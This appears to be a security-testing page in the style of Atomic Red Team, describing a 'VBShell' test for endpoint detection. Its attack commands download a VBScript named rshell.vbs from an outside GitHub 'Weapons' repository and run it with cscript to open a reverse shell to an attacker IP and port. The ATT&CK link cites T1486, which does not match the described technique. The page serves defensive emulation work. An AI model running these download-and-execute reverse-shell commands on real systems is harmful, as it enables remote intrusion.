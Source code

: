 # VBShell - Tehtris Test: Running VBShell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1486)
<blockquote>VBShell is a vbs script to run powershell commands. It downloads the payload through dns, and execute it in memory to establish a remote connection to a specified IP address and port.
</blockquote>

## Tehtris Tests

- [Tehtris Test - Running VBShell](#tehtris-test---VBShell)

<br/>

## Tehtris Test - Running VBShell
Methods to run a malicious behavior from a vbscript on a computer.

when sucessfully executed, the test downloads the payload and execute it in memory to establish a remote connection.

**Supported Platforms:** Windows


**auto_generated_guid:** f92a474f-abd9-491f-b338-95a101418ce3


#### Attack Commands: Run with `powershell`! 


```powershell
(New-Object System.Net.WebClient).DownloadFile("https://github.com/HakkYahud/Weapons/raw/main/rshell.vbs", "C:\Users\Public\rshell.vbs")
cscript.exe C:\Users\Public\rshell.vbs $attacker_ip $attacker_port
```

#### Cleanup Commands:
```powershell
del C:\Users\Public\rshell.vbs >nul 2> nul
```

<br/>
<br/>
